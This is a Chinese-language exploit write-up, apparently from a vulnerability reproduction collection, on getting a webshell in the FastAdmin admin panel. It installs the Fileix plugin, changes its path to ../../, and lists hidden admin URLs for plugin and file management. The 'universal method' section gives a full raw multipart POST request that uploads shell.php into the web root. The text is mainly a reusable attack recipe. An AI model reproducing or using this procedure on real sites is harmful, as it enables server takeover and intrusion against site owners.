 # FastAdmin 第三方插件后台getshell

## 一、漏洞简介

FastAdmin是基于ThinkPHP5和Bootstrap的后台框架，可以利用三方插件GetShell

## 二、漏洞影响

## 三、复现过程

开启phpstudy本地搭建

![](images/2020_07_08/15942248068221.jpg)


安装成功，新版源码的后台地址是随机生成的

![](images/2020_07_08/15942248168493.jpg)


后台默认会有插件管理功能，但是绝大部分用户会把这个功能阉割掉

![](images/2020_07_08/15942248257377.jpg)


Fileix文件管理器离线安装包官方下载地址：

```
https://www.fastadmin.net/store/fileix.html

```

点击离线安装，选择上传你下载的ZIP离线安装包

插件安装完成会自动启用，默认路径配置是这样的

![](images/2020_07_08/15942248354559.jpg)


然后打开是这样的

![](images/2020_07_08/15942248427092.jpg)


可以修改为 ../../，那么再打开就是这样的

![](images/2020_07_08/15942248497076.jpg)


然后浅显易懂，直接右键上传php文件就能getshell

![](images/2020_07_08/15942248564187.jpg)


上面是本地测试环境，真实环境会出现这样一个问题，就是点击文件管理功能不会显示任何内容

![](images/2020_07_08/15942248644572.jpg)


后来了解一下是因为没有配置前台页面，不太好修改，所以利用下面的方法

### 通用方法

1.插件管理地址：

```
/admin/addon?ref=addtabs

```

进入后台默认不显示插件管理功能，访问插件管理地址，上传离线安装包

![](images/2020_07_08/15942248988698.jpg)


2.文件管理地址/读取所有文件地址：

```
/admin/fileix?ref=addtabs/admin/fileix/lst

```

真实环境中如果出现不显示功能的情况，必要时可以读取所有文件地址

![](images/2020_07_08/15942249066072.jpg)


3.上传poc：

```bash
POST /admin/fileix/data?target=%2F HTTP/1.1
Host: www.baidu.com
Content-Length: 1050
Origin: http://www.baidu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 SE 2.X MetaSr 1.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrZmyeAB3SciJDWST
Accept: */*
Referer: http://www.baidu.com
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=xxxxxxxx
Connection: close

------WebKitFormBoundaryrZmyeAB3SciJDWST
Content-Disposition: form-data; name="upload"; filename="shell.php"
Content-Type: application/octet-stream

code
------WebKitFormBoundaryrZmyeAB3SciJDWST
Content-Disposition: form-data; name="action"

upload
------WebKitFormBoundaryrZmyeAB3SciJDWST
Content-Disposition: form-data; name="target"

/public/
------WebKitFormBoundaryrZmyeAB3SciJDWST--

```

修改host地址post过去

![](images/2020_07_08/15942249313535.jpg)


利用poc成功上传shell

![](images/2020_07_08/15942249380494.jpg)


## 参考链接

> https://mp.weixin.qq.com/s?__biz=MzU5NjQ0NTE4NA==&mid=2247484075&idx=1&sn=11e65cec3f039999f866698506a36f28&chksm=fe63d3c4c9145ad2e21001823f540bb0bd6c23a6ec664140b822469da4d8d54b861ef018ea7f&scene=126&sessionid=1593434570&key=b5fefcfa89041be749d30d0e2266e1cb7156cb2e90b17f7b536842ddf2d3b5556f1173d87f4fc7179d317629e5d19d9463f24c10281da8b2849c4199764adf891e9e03d0f72d4d5180567f296802b53b&ascene=1&uin=MjQ5MTY5NzI0MQ%253D%253D&devicetype=Windows+10+x64&version=6209007b&lang=zh_CN&exportkey=A1vHlcBsOQV07c8LhOThsow%253D&pass_ticket=tAsIlNPv68VYYzmpmtjDaAEG6W%252FH9DIMUJnYgeEjVPNSs7%252BvoJq%252B0MFM2dMHbfEf


